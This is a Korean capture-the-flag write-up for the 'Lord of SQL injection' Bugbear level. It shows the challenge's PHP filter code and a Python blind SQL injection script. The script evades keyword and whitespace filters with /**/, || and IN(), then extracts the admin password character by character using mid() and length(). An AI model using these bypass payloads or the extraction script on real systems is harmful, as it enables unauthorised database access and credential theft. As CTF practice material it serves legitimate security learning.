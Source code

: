 # Lord of SQL injection No.13 Bugbear

Bugbear 문제는 `'`, `substr`, `ascii`, `=`, `or`, `and`, `공백(Whitespace)`, `like`, `0x`를 우회하여 Blind SQL Injection을 할할 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");
```

`preg_match`에서 `$_GET[pw]`에서는 `'`, `$_GET[no]`에서는 `substr`, `ascii`, `=`, `or`, `and`, `공백(Whitespace)`, `like`, `0x`를 필터링하여 `HeHe`를 출력한 후 문제 풀이에 실패하게 된다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");
```

DB에 저장된 `pw` 값과 입력받은 `pw` 값이 일치하면 문제 풀이에 성공하게 된다.

## Solution

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수
pwlen = 0

for i in range(1,10):
    url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
    add_url = '-1/**/||/**/length(pw)/**/IN("{}")--'.format(i)
    print("Searching Password Length.. [{}]".format(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    response = urllib.request.urlopen(re)

    if str(response.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found length!! => {}".format(pwlen))
        break

for i in range(1,pwlen+1):
    for j in range(ord("0"),ord("z")):
        url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = '-1/**/||/**/mid(pw,1,{})/**/IN("{}")--'.format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        request = urllib.request.urlopen(re)

        if str(request.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

`=`을 우회하기 위해 사용하던 `like`가 막혔기 때문에 이를 우회하기 위해 `IN()` 함수를 사용하여 우회하였다. `regexp` 를 사용하여 우회하는 방법도 있다.

#### like 우회

* [like, rlike, regexp](https://m.blog.naver.com/PostView.nhn?blogId=joyswan&logNo=150040036162&proxyReferer=https%3A%2F%2Fwww.google.co.kr%2F)

* [SQL IN Operator](https://www.w3schools.com/sql/sql_in.asp)

공백(Whitespace)가 `preg_match`로 인해 사용하지 못하기 때문에 이를 우회할 방법이 필요하다.
이를 우회하는 방법은 `No.5 Wolfman`에서 자세히 알아본 적이 있었다.

* [공백을 우회하는 No.5 Wolfman writeup 다시보기](https://github.com/JaehunYoon/los_writeup/blob/master/los_no5_wolfman.md)

`for`문을 모두 마치면 `pw`값은 `735c2773`이 나오게 된다.

```
http://los.eagle-jump.org/bugbear_***.php?pw=735c2773
```

URL에 추출한 `pw`값인 `735c2773`를 삽입하면 DB의 `pw` 값과 일치하기 때문에 문제 풀이에 성공하게 된다.